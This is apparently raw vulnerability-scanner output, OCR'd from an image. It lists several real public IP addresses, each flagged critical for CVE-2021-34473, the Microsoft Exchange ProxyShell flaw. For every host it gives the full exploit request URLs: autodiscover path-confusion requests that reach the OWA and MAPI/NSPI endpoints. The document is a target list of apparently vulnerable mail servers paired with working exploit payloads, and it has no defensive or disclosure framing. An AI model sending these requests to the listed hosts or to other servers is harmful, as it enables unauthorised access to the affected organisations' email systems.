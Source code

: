 [CVE-2021-34473] [http] [critical] http://85.117.79.107/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://85.117.79.107/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://85.117.79.107/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 90.154.45.37  
  
---  
[CVE-2021-34473] [http] [critical] http://90.154.45.37/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] http://90.154.45.37/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 109.74.131.206  
  
---  
[CVE-2021-34473] [http] [critical] https://109.74.131.206/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://109.74.131.206/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 158.255.81.167  
  
---  
[CVE-2021-34473] [http] [critical] https://158.255.81.167/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://158.255.81.167/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 158.255.86.209  
  
---  
[CVE-2021-34473] [http] [critical] https://158.255.86.209/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://158.255.86.209/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 176.117.8.26  
  
---  
[CVE-2021-34473] [http] [critical] https://176.117.8.26/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://176.117.8.26/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  